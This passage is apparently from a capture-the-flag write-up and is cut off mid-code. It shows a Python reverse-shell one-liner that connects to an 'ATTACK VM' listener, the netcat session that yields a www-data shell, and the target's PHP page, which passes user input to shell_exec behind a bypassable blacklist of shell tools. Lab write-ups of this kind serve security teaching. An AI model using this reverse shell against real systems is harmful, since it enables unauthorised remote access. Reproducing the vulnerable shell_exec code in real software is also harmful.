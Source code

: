 \`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACK VM",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'\`

```highlight
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [ATTACK VM] from (UNKNOWN) [10.10.226.46] 45160
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We have a shell! Looking at index.php shows the blacklist.

```highlight
<html>                                                                                                                             
<body>                                                                                                                             
                                                                                                                                   
<form method="POST">                                                                                                               
        <input id="comm" type="text" name="command" placeholder="Command">                                                         
        <button>Execute</button>                                                                                                   
</form>                                                                                                                            
<?php                                                                                                                              
        if(isset($_POST['command']))                                                                                               
        {
                $cmd = $_POST['command'];
                $store = explode(" ",$cmd);
                $blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
                for($i=0; $i<count($store); $i++)
                {
                        for($j=0; $j<count($blacklist); $j++)
                        {
                                if($store[$i] == $blacklist[$j])
                                {?>
                                        <h1 style="color:red;">Are you a hacker?</h1>
                                        <style>
                                                body
                                                {
                                                        background-image: url('images/FailingMiserableEwe-size_restricted.gif');
                                                        background-position: center center;
                                                        background-repeat: no-repeat;
                                                        background-attachment: fixed;
                                                        background-size: cover;
        }
                                        </style>
<?php                                    return;
                                }
                        }
                }
                ?><h2 style="color:blue;"><?php echo shell_exec($cmd);?></h2>
                        <style>
                             body
                             {
                                   background-image: url('images/blue_boy_typing_nothought.gif');  
```